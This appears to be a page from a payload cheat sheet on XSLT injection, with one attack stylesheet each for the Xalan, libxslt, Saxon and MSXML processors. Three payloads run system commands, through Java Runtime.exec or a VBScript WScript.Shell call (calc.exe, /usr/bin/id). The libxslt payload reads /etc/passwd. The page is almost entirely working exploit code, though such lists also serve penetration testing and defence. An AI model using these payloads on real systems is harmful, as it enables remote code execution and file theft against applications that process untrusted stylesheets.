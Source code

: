 ## XSLT Processor-Specific Attacks

### 1. Xalan Processor (Java)

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
  <xsl:template match="/">
    <xsl:variable name="rtObj" select="rt:getRuntime()"/>
    <xsl:variable name="process" select="rt:exec($rtObj, 'calc.exe')"/>
    <xsl:value-of select="process"/>
  </xsl:template>
</xsl:stylesheet>
```

### 2. libxslt (Used by PHP, Python)

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="document('/etc/passwd')"/>
  </xsl:template>
</xsl:stylesheet>
```

### 3. Saxon

```xml
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <!-- If Saxon-PE or Saxon-EE with feature:allow-external-functions is set to true -->
  <xsl:variable name="cmd"><![CDATA[/usr/bin/id]]></xsl:variable>
  <xsl:variable name="rtObj" select="runtime:getRuntime()" 
    xmlns:runtime="java.lang.Runtime"/>
  <xsl:variable name="process" select="runtime:exec($rtObj, $cmd)"/>
  <xsl:value-of select="$process"/>
</xsl:stylesheet>
```

### 4. Microsoft MSXML

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt" 
xmlns:user="http://mycompany.com/mynamespace">
  <msxsl:script language="VBScript" implements-prefix="user">
    Function transform()
      Set shell = CreateObject("WScript.Shell")
      shell.Run "cmd.exe /c calc.exe"
      transform = ""
    End Function
  </msxsl:script>
  <xsl:template match="/">
    <xsl:value-of select="user:transform()"/>
  </xsl:template>
</xsl:stylesheet>
```
